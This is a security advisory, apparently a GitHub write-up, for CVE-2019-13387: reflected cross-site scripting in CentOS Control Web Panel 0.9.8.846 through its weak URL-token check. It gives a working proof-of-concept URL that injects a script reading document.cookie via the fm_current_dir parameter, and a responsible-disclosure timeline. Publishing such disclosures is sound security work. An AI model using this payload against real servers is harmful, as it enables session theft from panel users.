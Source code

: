 # Information

```
Exploit Title       : CWP (CentOS Control Web Panel) Reflected Cross Site Scripting
Date                : 7 July 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.846
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-13387
```
<br><br>
# Description:

CWP Version 0.9.8.846 have implemented token in every URL to prevent cross site scripting.
But the aplication checks only length of the token, this allows attacker to follow the token format to bypass XSS protection
Refer to  : CVE-2018-18324


#  Steps to Reproduce

1. Example : https://[target.com]:2083/cwp_xxxxxxxxxxxxxxxx/user1/fileManager2.php?frame=3&fm_current_dir=</script><script>alert(document.cookie)</script>

Parameter Name: fm_current_dir
Attack Pattern for XSS: </script><script>alert(document.cookie)</script>



<kbd>![](resources/CVE-2019-13387.md/ezgi.gif)</kbd>

<br>

#  Timeline

```
2019-07-07: Discovered the bug
2019-07-07: Reported to vendor
2019-07-07: Vender accepted the vulnerability
2019-07-15: The vulnerability has been fixed
2019-07-23: Published
```
